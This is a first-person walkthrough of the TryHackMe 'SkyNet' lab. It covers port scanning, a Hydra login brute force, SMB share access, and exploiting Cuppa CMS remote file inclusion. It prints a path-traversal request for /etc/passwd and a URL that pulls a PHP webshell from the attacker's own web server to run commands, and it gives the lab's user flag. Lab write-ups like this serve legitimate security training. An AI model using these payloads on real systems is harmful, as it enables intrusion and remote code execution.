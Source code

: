 # SkyNet

## Recon

nmap revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 03:49 UTC
Nmap scan report for ip-10-10-20-144.eu-west-1.compute.internal (10.10.20.144)
Host is up (0.00057s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
MAC Address: 02:33:4B:B9:0C:CE (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
```

So, a website, a mail server and samba shares.

dirb on the website revealed a mail application, squirrelmail, under /squirrelmail. The login page looked simple enough, but I needed a username and password.

enum4linux on the smb share revealed a username milesdyson and two shares: /anonymous and /milesdyson

## Hydra

Initially I tried hydra'ing the squirrel login using milesdyson and rockyou. While that was running, I connected to the anonymous share and poked about. Apart from a huge and funny collection of machine learning books, there was a note saying all passwords had been reset, and three log files, of which only the first (log1.txt) had any content.

The log file contained a list of permutations on the word 'terminator'. On a whim, since rockyou wasn't getting me anywhere, I tried using the log file as a password source instead. The first entry 'cyborg007haloterminator' worked :)

## Mail server, authed smb and hidden CMS

After logging in to squirrelmail, I found an email 'from skynet' that contained a new SMB password. I promptly used this with smbclient -U milesdyson to access the restricted share. In there, a level or two deep and buried in a huge set of markdown files I found a text file called important.txt

Inside this was a list of tasks:

```

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

I browsed to that path and found a hidden page on the main site. A dirb on the page revealed /45kra24zxs28v3yd/administrator, which when browsed to, revealed itself as 'Cuppa CMS'

## Remote file inclusion and shell

Cuppa is vulnerable to remote file inclusion, even unauthenticated, as described here on exploit-db: https://www.exploit-db.com/exploits/25971

I tested this with `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` and successfully got the contents of the local passwd file, all to the good. 

The exploit would include anything, even a url, so I downloaded a simple request CMD php shell from github, spun up a python3 -m http.server, and then tested command execution: `http://10.10.20.144/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?cmd=whoami&urlConfig=http://10.10.151.47:8000/easy-simple-php-webshell.php`. That magic `www-data` showed up.

Next I quickly grabbed the user flag, guessing it would be as it is on most TryHackMe VMs: /home/milesdyson/user.txt. Success! `7ce5c2109a40f958099283600a9ae807`
